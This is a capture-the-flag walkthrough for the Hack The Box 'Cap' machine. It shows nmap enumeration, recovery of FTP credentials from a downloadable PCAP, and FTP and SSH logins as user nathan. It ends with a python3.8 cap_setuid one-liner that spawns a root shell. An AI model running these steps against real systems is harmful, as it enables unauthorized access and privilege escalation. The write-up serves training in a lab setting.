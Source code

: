 ## Default Information
IP address : 10.10.10.245\
Operating System : Linux

## Enumeration
Lets start with running a network scan on the IP address using ```NMAP``` to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.245 -vv
```
From the output of ```NMAP```, we are able to obtain the following information about the open ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 21	| FTP | vsftpd 3.0.3 |
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 21	| HTTP | Gunicorn |

## Discovery
Visiting the webpage at ```10.10.10.245```, the site appears to be a security dashboard
![Screenshot of 10.10.10.245](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitydashboard.PNG)
The ```IP config``` and ```Network Status``` does not contain any fascinating information, but the ```security snapshot``` contains a PCAP file that can be downloaded. 
![Screenshot of security snapshot](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitysnapshot.PNG)
We will then proceed to save the PCAP file downloaded from ```http://10.10.10.245/data/0``` , ```http://10.10.10.245/data/1```, ```http://10.10.10.245/data/2``` and ```http://10.10.10.245/data/3```\
Viewing the PCAP file from ```http://10.10.10.245/data/0```, we are able to discover that there is a connection to the FTP server, and we are also able to retrieve the username and password to the FTP server
![Screenshot of FTP server](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_FTP.PNG)

## Exploitation
Now, we will login to the FTP server using the discovered username and password. Afterwards, we will download the ```user.txt``` file to our server.
```code                                                                           
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```
We will find the key from the ```user.txt``` file using the ```cat``` command, to obtain our user key.\
Remembering that we have an SSH serve, we will now try to login to the SSH server. In the SSH server, we notice that the user ```nathan``` is unable to run sudo commands. Hence,we will start by searching for sudo permissions or SUID binaries that could escalate privileges and help us obtain the root shell.
```code
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```
We notice that ```python 3.8``` has a ```setuid``` command that can help us escalate to UID 0(root) and obtain a root shell. From there, we will be able to obtain our system flag.
```code
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```
